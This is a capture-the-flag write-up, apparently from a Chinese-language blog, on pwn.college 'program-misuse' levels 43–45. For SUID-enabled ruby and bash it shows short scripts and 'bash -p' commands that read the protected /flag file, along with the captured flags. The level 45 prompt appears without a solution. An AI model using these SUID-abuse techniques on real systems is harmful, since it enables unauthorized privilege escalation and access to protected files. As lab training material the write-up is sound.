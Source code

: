 ```

This challenge is part of a series of programs that
let you read the flag because they let you program anything.

I just set the SUID bit on /usr/bin/ruby.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level43) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/ruby!
```
用ruby写脚本
```
# 打开文件
File.open('/flag', 'r') do |f|
  # 读取文件内容
  content = f.read
  # 输出文件内容
  puts content
end
```
```
hacker@program-misuse-level-43:~$ ruby level43.rb
pwn.college{smGb0PfTvxp0__6HgKHsucNW2Pg.0VN4EDL2QjMyMzW}
hacker@program-misuse-level-43:~$
```

## level44 Lets you read the flag because they let you program anything!
```
hacker@program-misuse-level-44:~$ sh file.sh
Welcome to ./babysuid_level44!

This challenge is part of a series of programs that
let you read the flag because they let you program anything.

I just set the SUID bit on /usr/bin/bash.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level44) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/bash!
```
bash，参照之前的题拿到提示符
```
hacker@program-misuse-level-44:~$ bash -p
bash-5.0# cat /flag
pwn.college{wsQ6idwZWBnJ7doJInQhvY0hBVg.0lN4EDL2QjMyMzW}
bash-5.0#
```

## level45 Just straight up wasn't designed to let you read files!
```
hacker@program-misuse-level-45:~$ sh file.sh
Welcome to ./babysuid_level45!

This challenge is part of a series of programs that
just straight up weren't designed to let you read files.

I just set the SUID bit on /usr/bin/date.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level45) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/date!
```
